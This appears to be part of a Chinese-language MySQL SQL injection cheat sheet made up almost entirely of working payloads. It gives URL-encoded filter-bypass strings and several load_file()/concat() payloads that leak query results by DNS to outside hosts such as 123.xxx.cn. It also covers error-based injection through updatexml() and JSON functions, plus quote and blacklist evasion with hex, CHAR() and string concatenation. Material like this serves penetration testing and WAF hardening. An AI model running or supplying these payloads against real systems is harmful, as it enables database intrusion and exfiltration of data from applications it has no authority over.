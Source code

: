 ```
✔ ?id=1%27%26%26(--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0aload_file(%22//123.xxx.cn/abc%22))%23
✔ ?id=1%27%26%26(--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0aload_file(%23/./%23/*%99%0a))%23
✔ ?id=1%27%26%26(--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0aload_file(%23/./%23/*%99%0d%0aconcat(%27//%27,(%23%0aselect%23/*%99%0a111),%27.123.text.com/abc%27)))%23
✔ ?id=1%20%26%26(--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0aload_file(%23/./%23/*%99%0d%0aconcat(%27//%27,(%23%0aselect%23/*%99%0a111),%27.123.text.com/abc%27)))%23

# concat()
❌ ?id=concat('//',(select 123),".123.test.com/abc")
✔ ?id=concat(%27//%27,(select%23/*%99%0a123),%22.123.test.com/abc%22)

# updatexml()
❌ ?id=updatexml(1,1,1)
✔ ?id=updatexml%23/*%99%0a(1,1,1)
✔ ?id=1%27and%20updatexml%23/*%99%0a(1,1,1)%23%27
✔ ?id=1%20and%20updatexml%23/*%99%0a(1,1,1)

❌ ?id=updatexml(0,(select a),'a)')
✔ ?id=updatexml%23/*%99%0d%0a(0,(%23/*%99%0d%0aselect%0aa),%27a)%27)
✔ ?id=1%27%26%26updatexml%23/*%99%0d%0a(0,(%23%0aselect%23/*%99%0a111),%27a)%27)%23
✔ ?id=1%20and%20updatexml%23/*%99%0d%0a(0,(%23%0aselect%23/*%99%0a111),%27a)%27)%23

?id=1' and updatexml(0,concat#concat)('//~',(select 123),0x7e),'a)')#
?id=1%27%26%26updatexml%23/*%99%0d%0a(0,concat%0a%23concat)%0d%0a(%27//~%27,(select%23/*%99%0a123),0x7e),%27a)%27)%23
?id=1%20and%20updatexml%23/*%99%0d%0a(0,concat%0a%23concat)%0d%0a(%27//~%27,(select%23/*%99%0a123),0x7e),%27a)%27)%23
```

**绕过引号限制**
```sql
-- hex 编码
SELECT * FROM Users WHERE username = 0x61646D696E
-- char() 函数
SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)
```

**绕过字符串黑名单**
```sql
SELECT 'a' 'd' 'mi' 'n';
SELECT CONCAT('a', 'd', 'm', 'i', 'n');
SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');
SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');

-- 使用 CONCAT() 时，任何个参数为 null，将返回 null，可以使用 CONCAT_WS()。CONCAT_WS()函数第一个参数表示用哪个字符间隔所查询的结果。
```

**json 函数**

MySQL 5.7.8 开始新增了很多操作 json 数据的函数

```sql
JSON_TYPE()
-- 此函数获取JSON值的类型，当我们传入的值不属于json格式则报错。
JSON_TYPE(version())

JSON_EXTRACT()
-- 此函数从 JSON 文档中返回数据，从与path参数匹配的文档部分中选择,当第一个参数不是json类型的值则报错
JSON_EXTRACT(version(), '$[1]')
JSON_EXTRACT((select user()),'$.a')

JSON_ARRAY_APPEND()
-- 将值附加到 JSON 文档中指定数组的末尾并返回结果，报错输出原理和json_extract函数相同。
select JSON_ARRAY_APPEND(version(),1,1);
select JSON_ARRAY_APPEND('[1,2]',version(),1);
```